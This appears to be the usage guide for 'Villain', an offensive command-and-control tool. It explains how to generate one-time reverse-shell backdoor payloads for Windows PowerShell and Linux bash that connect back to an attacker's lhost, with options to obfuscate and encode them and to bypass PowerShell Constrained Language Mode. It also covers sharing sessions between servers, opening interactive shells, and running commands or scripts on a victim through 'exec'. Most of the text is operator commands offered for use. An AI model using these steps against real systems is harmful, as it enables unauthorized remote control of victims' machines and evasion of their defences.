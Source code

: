 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. [Connect With Sibling Server](Connect-With-Sibling-Server)
3. [The exec Command](The-exec-Command)

## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=<OS Type> lhost=<IP or INTERFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```
Each generated payload is going to work only once. An already used payload cannot be reused to establish a session.
The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type to generate backdoor for [windows/linux]. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface to connect back. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your backdoor sessions with another machine running Villain. 
```
connect <IP> <CORE SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive HoaxShell against a session. 
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## The exec Command
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```
